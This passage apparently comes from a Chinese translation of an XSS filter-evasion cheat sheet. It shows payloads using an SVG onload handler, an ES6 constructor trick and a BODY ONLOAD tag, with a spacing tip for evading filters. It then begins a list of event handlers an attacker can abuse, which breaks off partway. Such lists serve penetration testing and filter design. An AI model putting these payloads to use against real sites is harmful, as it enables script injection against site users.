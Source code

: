 
### 2.42.    SVG对象标签


<svg/onload=alert('XSS')>


 

### 2.43.    ECMAScript 6


Set.constructor`alert\x28document.domain\x29


 

### 2.44.    BODY标签

这个方法不需要使用任何例如"javascript:"或"<SCRIPT..."语句来完成XSS攻击。Dan Crowley特别提醒你可以在等号前加入一个空格("onload=" != "onload ="):


<BODY ONLOAD=alert('XSS')>




### 2.45.    事件处理程序

在XSS攻击中可使用以下事件（在完稿的时候这是网上最全的列表了）。感谢ReneLedosquet的更新。


FSCommand() (攻击者当需要在嵌入的Flash对象中执行时可以使用此事件)

onAbort() (当用户中止加载图片时)

onActivate() (当对象激活时)

onAfterPrint() (用户打印或进行打印预览后触发)

onAfterUpdate() (从数据源对象更新数据后由数据对象触发)

onBeforeActivate() (在对象设置为激活元素前触发)

onBeforeCopy() (攻击者在选中部分拷贝到剪贴板前执行攻击代码-攻击者可以通过执行execCommand("Copy")函数触发)

onBeforeCut() (攻击者在选中部分剪切到剪贴板前执行攻击代码)

onBeforeDeactivate() (在当前对象的激活元素变化前触发)

onBeforeEditFocus() (在一个包含可编辑元素的对象进入激活状态时或一个可编辑的对象被选中时触发)

onBeforePaste() (在用户被诱导进行粘贴前或使用execCommand("Paste")函数触发)

onBeforePrint() (用户需要被诱导进行打印或攻击者可以使用print()或execCommand("Print")函数).

onBeforeUnload() (用户需要被诱导关闭浏览器-除非从父窗口执行，否则攻击者不能关闭当前窗口)

onBeforeUpdate() (从数据源对象更新数据前由数据对象触发)

onBegin() (当元素周期开始时由onbegin 事件立即触发)

onBlur() (另一个窗口弹出当前窗口失去焦点时触发)

onBounce() (当marquee对象的behavior属性设置为“alternate”且字幕的滚动内容到达窗口一边时触发)

